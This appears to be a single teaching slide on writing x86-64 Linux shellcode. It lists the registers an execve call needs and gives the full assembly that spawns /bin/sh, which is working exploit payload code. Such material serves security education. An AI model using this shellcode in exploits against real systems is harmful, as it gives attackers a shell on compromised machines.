

# Writing our shellcode
Now that we’ve defined our needs, let’s convert them into required processor’s state to achieve that:
RAX – 0x3B
RDI – pointer to /bin/sh (1st arg)
RSI – 0x00 (2nd arg)
RDX – 0x00 (3rd arg)
and that’s about it
PUSH 0x3B
POP RAX
MOV RBX, 0x0068732f6e69622f
PUSH RBX
MOV RDI, RSP
XOR RSI, RSI
XOR RDX, RDX
SYSCALL